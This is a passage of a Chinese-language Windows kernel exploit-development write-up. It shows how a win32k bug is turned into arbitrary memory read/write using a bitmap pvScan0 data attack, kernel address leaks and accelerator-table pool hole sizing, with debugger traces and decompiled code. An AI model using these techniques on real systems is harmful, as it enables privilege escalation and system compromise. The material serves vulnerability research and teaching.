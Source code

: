 这样，我们就完成了一个基本漏洞利用场景的构建，接下来我们就需要决定利用**v17 = **((_DWORD *)a2 + 4); 这行代码往哪个地址写些什么。

这里我决定用bitmap这种data attack的方法来完成利用，因为首先根据我们刚才的分析，v6这个值必须为0x45，而v6+0xC的位置是我们要写任意值的位置，如果看过bitmap相关利用文章的师傅们会知道利用bitmap.pvScan0就可以实现data attack，完成任意地址读写，而bitmap.pvScan0 – 0xC的值是nHeight，这个值用户可控。

[![](https://p2.ssl.qhimg.com/t01b6802700242ccbbb.png)](https://p2.ssl.qhimg.com/t01b6802700242ccbbb.png)

所以，在32位下我们甚至连pool fengshui都不需要做，只需要制造一个bitmap并且能将bitmap的kernel object address泄露出来，然后精准布局szBuf即可。

[![](https://p2.ssl.qhimg.com/t0184832f924e8e47ea.png)](https://p2.ssl.qhimg.com/t0184832f924e8e47ea.png)

接下来我们来完成最后的利用，首先是利用Accelerator来制造一个稳定的hole并且通过gsharedinfo泄露出来，这里有个比较特殊的地方，由于我们需要控制bitmap的nheight，因此需要在createbitmap的时候控制第二个参数BitmapInfo.hBitmap = CreateBitmap(0x200, 0x45, 1, 1, 0); // nHeight should be 0x45。

这样我们需要来控制申请pool的大小，这里我逆向了createbitmap和createacceleratortable函数。

```
kd&gt; kb
ChildEBP RetAddr  Args to Child              
ac147a9c 946ea1aa 00000021 00000290 35306847 win32kfull!Win32AllocPoolImpl+0x35
ac147abc 946e6da2 00000001 ac147b90 00000004 win32kbase!PALLOCMEM2+0x24
ac147ad4 946e72ce 00000290 00000005 00000001 win32kbase!AllocateObject+0xe2
ac147b40 946d43a9 ac147b90 00000000 00000000 win32kbase!SURFMEM::bCreateDIB+0x30e
ac147bac 988f085d 00000001 00000045 00000001 win32kbase!GreCreateBitmap+0xe9
ac147bf8 81d502c7 00000001 00000045 00000001 win32kfull!NtGdiCreateBitmap+0x33


kd&gt; kb
ChildEBP RetAddr  Args to Child              
abc32b5c 946f9e87 00000102 63617355 00a72e90 win32kbase!Win32AllocPoolWithQuotaZInit+0xc
abc32b84 989044d5 a24b8428 00000000 947a4a5c win32kbase!HMAllocObject+0x1e7
abc32bcc 98904486 7c04caef 00a72da0 0076f8d0 win32kfull!_CreateAcceleratorTable+0x29
abc32c04 81d502c7 00a72da0 00000028 0076f8e0 win32kfull!NtUserCreateAcceleratorTable+0x5e
```

这里的win32kfull!_CreateAcceleratorTable中找到了关于accelerator申请大小的地方。

```
int __stdcall NtUserCreateAcceleratorTable(unsigned int a1, unsigned int a2)
  v3 = 6 * a2;//a2 = Accelerator第二个参数
  if ( 6 * a2 )
  `{`
    v4 = *(_BYTE **)_W32UserProbeAddress;
    if ( v3 + a1 &gt; *(_DWORD *)_W32UserProbeAddress || v3 + a1 &lt; a1 )
      goto LABEL_10;
  `}`
LABEL_6:
  ms_exc_20 = -2;
  v5 = (int *)_CreateAcceleratorTable((const void *)a1, v3);
```

这里就是createaccelerator中第二个参数与6相乘，因此只需要在createbitmap中找到ExAllocatePoolWithTag前的size大小，然后算出createacceleratortable第二个参数的大小就能申请相同的hole了。
